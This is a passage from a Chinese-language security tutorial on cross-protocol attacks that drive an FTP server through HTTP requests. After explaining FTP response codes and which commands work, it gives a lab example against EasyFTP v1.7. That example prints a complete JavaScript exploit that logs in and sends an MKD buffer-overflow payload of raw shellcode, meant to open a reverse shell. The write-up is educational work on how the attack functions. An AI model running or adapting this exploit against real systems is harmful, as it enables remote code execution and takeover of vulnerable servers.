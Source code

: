 ```
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
331 User secforce OK. Password required
500 ?
500 ?
500 ?
230 OK. Current directory is /
500 ?
```
自己测试的话你可能发现并不是所有的FTP命令都正常工作.像MKD/RMD和DEL工作正常,GET/PUT,RETR/STOR无法正常工作.这是因为FTP是一种带外(out-of-band)协议,它的数据和控制指令是通过不同的TCP端口传送的.事实上,如果你尝试用STOR命令上传一个文件到服务器上,会发现在服务器上创建了一个同名的空文件.这是因为在文件开始传输数据之前先创建一个空文件，所有的命令都不需要一个单独的数据连接就可以工作。

让我们看一个更加有趣的例子。

示例2:通过HTTP溢出FTP服务器反弹shell #

这个例子中我们使用EasyFTP v1.7,这个版本存在一个MKD命令的缓冲区溢出漏洞.需要注意的是这个命令不需要一个额外的数据连接通道就可以成功执行.我们在虚拟机里搭建好服务器(192.168.1.10),创建"anonymous"用户.因为成功利用这个漏洞的前提是先登录到FTP服务器.

因为没有必要重复造轮子,这里我们直接使用一个公开的漏洞利用代码(参考资料[1]])来构造POST请求.这次使用javascript来发送shellcode到FTP服务器.为了成功发送shellcode,我们使用了sendAsBinary函数,详情参考资料[2][3].

最后的函数如下:
```
function exploit(){
var url = 'http://192.168.1.10:21'
var intro = 'USER anonymous\r\nPASS anonymous\r\n'
var payload = 'MKD \x89\xe7\x81\xef\x10\xfe\xff\xff\xc7\x07\x13\x57\x7e\xd6\x81\xc7
\x14\xff\xff\xff\xff\xe7\x43\x43\x43\x43\x43\x43\x43\x43\x43\x43
\xba\xae\x16\xd0\x74\xd9\xcc\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x4f
\x31\x56\x14\x83\xee\xfc\x03\x56\x10\x4c\xe3\x2c\x9c\x19\x0c\xcd
\x5d\x79\x84\x28\x6c\xab\xf2\x39\xdd\x7b\x70\x6f\xee\xf0\xd4\x84
\x65\x74\xf1\xab\xce\x32\x27\x85\xcf\xf3\xe7\x49\x13\x92\x9b\x93
\x40\x74\xa5\x5b\x95\x75\xe2\x86\x56\x27\xbb\xcd\xc5\xd7\xc8\x90
\xd5\xd6\x1e\x9f\x66\xa0\x1b\x60\x12\x1a\x25\xb1\x8b\x11\x6d\x29
\xa7\x7d\x4e\x48\x64\x9e\xb2\x03\x01\x54\x40\x92\xc3\xa5\xa9\xa4
\x2b\x69\x94\x08\xa6\x70\xd0\xaf\x59\x07\x2a\xcc\xe4\x1f\xe9\xae
\x32\xaa\xec\x09\xb0\x0c\xd5\xa8\x15\xca\x9e\xa7\xd2\x99\xf9\xab
\xe5\x4e\x72\xd7\x6e\x71\x55\x51\x34\x55\x71\x39\xee\xf4\x20\xe7
\x41\x09\x32\x4f\x3d\xaf\x38\x62\x2a\xc9\x62\xeb\x9f\xe7\x9c\xeb
\xb7\x70\xee\xd9\x18\x2a\x78\x52\xd0\xf4\x7f\x95\xcb\x40\xef\x68
\xf4\xb0\x39\xaf\xa0\xe0\x51\x06\xc9\x6b\xa2\xa7\x1c\x3b\xf2\x07
\xcf\xfb\xa2\xe7\xbf\x93\xa8\xe7\xe0\x83\xd2\x2d\x97\x84\x45\x62
\xb8\x1a\x92\x12\xbb\x1a\x8b\xbe\x32\xfc\xc1\x2e\xec\x41\x40\x00
\x3e\x23\x1f\x17\x95\xa3\xbc\x8a\x72\x33\xca\xb6\x2c\x64\x9b\x09
\x25\xe0\x31\x33\x9f\x16\xc8\xa5\xd8\x92\x17\x16\xe6\x1b\xd5\x22
\xcc\x0b\x23\xaa\x48\x7f\xfb\xfd\x06\x29\xbd\x57\xe9\x83\x17\x0b
\xa3\x43\xe1\x67\x74\x15\xee\xad\x02\xf9\x5f\x18\x53\x06\x6f\xcc
\x53\x7f\x8d\x6c\x9b\xaa\x15\x8c\x7e\x7e\x60\x25\x27\xeb\xc9\x28
\xd8\xc6\x0e\x55\x5b\xe2\xee\xa2\x43\x87\xeb\xef\xc3\x74\x86\x60
\xa6\x7a\x35\x80\xe3'
var req = new XMLHttpRequest();
req.open('POST', url, true);
req.setRequestHeader('Content-Type', 'text/plain');
req.setRequestHeader('Content-Length', '20');
req.sendAsBinary(intro + payload + '\r\n'); // neat way to send hexadecimal code through HTTP
}
```